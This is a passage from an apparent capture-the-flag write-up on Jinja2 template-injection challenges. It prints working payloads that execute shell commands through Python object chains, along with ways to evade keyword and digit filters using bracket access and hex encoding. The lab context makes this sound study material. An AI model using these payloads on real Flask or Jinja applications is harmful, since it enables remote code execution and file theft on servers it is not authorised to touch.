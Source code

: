 * Here is the original payload along with the dots removed and all functions placed inside quotes and square brackets
```python3
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}


{{ " "["__class__"]["__base__"]["__subclasses__"]()[140]["__init__"]["__globals__"]['sys']["modules"]['os']["popen"]('cat flag')["read"]() }}


```

### Level 8
* This doesn't allow us to include "class", "base",  "globals", or "popen"
	* Thus, we can just convert everything to hex like we did before

* Here is the original payload along with all the characters converted to hex:
```python3

{{ url_for.__globals__.os.popen('cat flag').read() }}

{{ url_for["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].os["\x70\x6f\x70\x65\x6e"]('cat flag').read() }}


```

### Level 9
* For this level, the hardest part was finding out what was blocked!
	* Turns out, any digit was blocked
* Luckily, we can use the same payload we've been using for a while without any numbers

```python3
{{ url_for.__globals__.os.popen('cat flag').read() }}
```

### Level 10
* Once again, I had a lot of trouble finding out what was blacklisted
	* `config`, which is a global variable passed by default, is set to `None` on this level
	* Usually, this is a good way to find out more about what's running on the server
		* Luckily we don't really need to use config to get the flag, but I'll show how to do some other things

* When we type in `{{config}}` nothing shows up
	* This could be due to WAF, but I decided to look more into it.
	* Turns out, config is set to `None` here.
* Here's the payload to check that:

```python3
{{ url_for.__globals__.__builtins__.locals()}}
```
* Once again, we're accessing the [built-in python functions](https://docs.python.org/3/library/functions.html), one of which being `locals()`, which shows the local symbol table 
